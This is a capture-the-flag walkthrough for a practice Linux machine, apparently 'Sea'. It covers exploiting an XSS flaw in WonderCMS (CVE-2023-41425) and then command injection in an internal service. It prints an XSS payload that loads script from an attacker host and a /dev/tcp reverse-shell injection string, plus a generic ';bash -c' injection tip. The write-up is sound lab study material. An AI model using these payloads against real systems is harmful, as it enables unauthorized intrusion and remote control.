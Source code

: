 # Sea - Walkthrough (Linux)

## 🌊 Initial Foothold

### 🌐 1. Web Enumeration
- Explored port **80**, found:
  - `/themes/bike/readme.md` → indicated CMS usage
  - `/version` → revealed **WonderCMS 3.2.0**

### 🚨 2. Exploit: CVE-2023-41425
- Found exploit: [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425)
- This XSS-based exploit loads a malicious JS file and sends a reverse shell.

### 🛠️ 3. Setup
- Added hostname to `/etc/hosts`:
  ```bash
  echo "10.129.X.X sea.htb" | sudo tee -a /etc/hosts
  ```

- Cloned and modified the exploit:
  ```bash
  wget https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip
  unzip main.zip
  ```

- Edited `exploit.py`:
  Replaced:
  ```js
  var urlWithoutLogBase = new URL(urlWithoutLog).pathname;
  ```
  With:
  ```js
  var urlWithoutLogBase = new URL(urlWithoutLog).host;
  ```

- Ran exploit:
  ```bash
  python3 exploit.py http://sea.htb/loginURL 10.10.16.52 9001
  ```

- Injected payload via web form (`contact.php`, website field):
  ```html
  http://sea.htb/index.php?page=loginURL?"></form><script src="http://10.10.16.52:8000/xss.js"></script><form action="
  ```

- Received reverse shell.

---

## ⚙️ Privilege Escalation

### 🔍 1. Found Local Port Listening
- Noticed service on **localhost:8080**

### 🔄 2. SSH Port Forward
- Forwarded port with SSH:
  ```bash
  ssh -L 8080:localhost:8080 user@sea.htb
  ```

- Configured **Burp Suite** to intercept `localhost:8080` requests  
  (refer to [burp port forward instructions](obsidian://open?vault=Obsidian%20Vault&file=burp%20getting%20request%20with%20port%20forward))

### 💥 3. Exploit via POST Request
- In a POST parameter (`log_file`), injected reverse shell payload:
  ```
  log_file=%2Fvar%2Flog%2Fauth.log;bash+-c+'sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.52%2F80%200%3E%261'&analyze_log=
  ```

> 🧠 **Tip:**  
> If you're exploiting a POST request, you can append:
> ```
> ;bash+-c+'your_encoded_reverse_shell_command'
> ```
> This often works in command injection scenarios.

---

## ✅ Summary
- XSS in outdated WonderCMS led to shell.
- Root gained via command injection in internal service accessed with port forwarding and Burp Suite.
